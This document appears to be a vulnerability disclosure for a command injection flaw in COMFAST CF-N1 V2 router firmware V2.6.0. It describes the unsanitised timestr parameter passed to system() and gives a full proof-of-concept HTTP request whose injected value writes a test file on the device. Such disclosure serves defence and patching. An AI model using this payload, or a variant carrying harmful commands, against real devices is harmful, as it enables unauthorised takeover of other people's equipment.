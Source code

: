 # COMFAST CF-N1 V2 V2.6.0 Command Injection in \`ntp\_timezone\`

Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

# COMFAST CF-N1 V2 V2.6.0 Command Injection in `ntp_timezone`

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `ntp_timezone` API (`/usr/bin/webmgnt`, function `sub_431C9C`). Attackers can inject arbitrary commands via the `timestr` parameter, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Proof](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comf](http://www.comfast.cn/)[ast](http://www.comfast.cn/)[.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.co](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[mfast](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[.com](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[.cn/in](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[dex.p](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[hp?m=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[conte](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[nt\&c=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[i](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[ndex](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[\&a=sh](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[ow\&ca](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[tid=3](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[1\&id=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=ntp_timezone`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_431C9C` function handling the `ntp_timezone` configuration. Disassembly analysis shows that the user-controlled `timestr` parameter is unsanitized and directly incorporated into system commands via `sprintf_0` before execution by `system_0`.

Key code flow:



1.  User input (including `timestr`) is parsed via `blobmsg_parse_0` and extracted as a configuration parameter.

2.  The `timestr` parameter is inserted into command strings using `sprintf_0` (e.g., constructing cron job entries or time-related commands).

3.  The constructed commands are executed via `system_0` without sanitization, allowing injection of arbitrary commands through delimiters like `";`, `&&`, or `#`.

This direct concatenation of unvalidated input into executable commands enables attackers to break out of the intended command context and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Construction Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST /cgi-bin/mbox-config?method=SET&section=ntp_timezone HTTP/1.1
Host: cflogin.cn
Content-Length: 173
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{ "timestr":"\"; echo time > /www-comfast/test.txt #",
"timezone":"0","zonename": "0","hostname": "0","ntp_client_enabled":"0","ntp_enable_server":"0","ntp_servername":"0"
}
```



*   **Notes**: The vulnerable parameter is `timestr`, exploited using `";` to terminate the original command context and `#` to comment out remaining syntax.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "time", confirming successful injection.



![PoC Execution Result](./imgs/3.png)
